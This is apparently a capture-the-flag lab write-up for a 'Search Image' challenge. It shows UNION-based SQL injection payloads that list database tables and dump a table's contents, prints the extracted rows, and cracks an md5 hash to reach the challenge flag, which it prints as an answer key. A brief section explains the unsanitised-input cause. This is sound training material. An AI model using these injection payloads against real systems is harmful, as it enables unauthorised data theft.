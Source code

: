 # <span style="text-decoration: underline"> Search Image </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.17 `
- Difficulty : <span style="color : green">Easy</span>

___


# <span style="text-decoration: underline">problem</span>

When we visit the `SEARCH IMAGE` page from **Home page** we see a page where there is an input for **image number** and a `submit` btton. Like other input in this project this could be a way to do `sql injection` To test we could simply try the `'` character. When we set `'` as input character and siubmit, nothing happens. Let's try `1=0`. Yes!! We have aresult with all the image `name` and `urls`.

# <span style="text-decoration: underline">Solution</span>

## Get the table name of our default database

We have found out many database and table names in the [member](/member) challenge. Let's try to findout in which tables does this database (default) contains, from this input.

```sql
1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) --
```

And we get the following result.

```sql
ID: 1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) -- 
Title: list_images
Url : 1
```

We can see that there is a table called `list_images`. In the [member](/member) challenge. we have found out the names of the columns for this table

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`|
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

## View content of the database

Now that we know what we have in the table let's try to extract the data using the same technique from [member](/member) challenge. but using the `column` names for this `table`.

```sql
1 AND 1=2 UNION SELECT title, CONCAT(CHAR(124), id, CHAR(124), url, CHAR(124), title, CHAR(124), comment, CHAR(124)) AS name FROM list_images --
```

We get the following respons

|Id|Url|Title|Comment|
|--|--|--|--|
|1|https://www.nsa.org/img.jpg|Nsa|An image about the NSA !|
|2|https://www.42.fr/42.png|42 !|There is a number..|
|4|https://www.obama.org/obama.jpg|Obama|Yes we can !|
|5|borntosec.ddns.net/images.png|Hack me ?|If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46|
|6|https://www.h4x0r3.0rg/tr0ll.png|tr00l|Because why not ?|

## UnHash and Rehash

Much like the [member](/member.md) challenge, we also get a `md5` string that we have to transform it to **lowercase** and then hash it using `sha256`.

- The `md5` hash `1928e8083cf461a51303633093573c46` is of the word `albatroz`
- It is already all lowercase
- The sha256 sum of the word `albatroz` is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

# <span style="text-decoration: underline">How to avoid the problem</span>

Contrary to the challenge [member](/member.md) challenge, they have removed the `error` messages of bad user inputs but did not do anything agains't correct `sql` query as input. Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string. 

# <span style="text-decoration: underline">Flag</span>

```text
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

> Node : This is the same `flag` as the one we found during the [copytight](/copyright) challenge

# <span style="text-decoration: underline">Resources</span>

- [member challenge](/member)
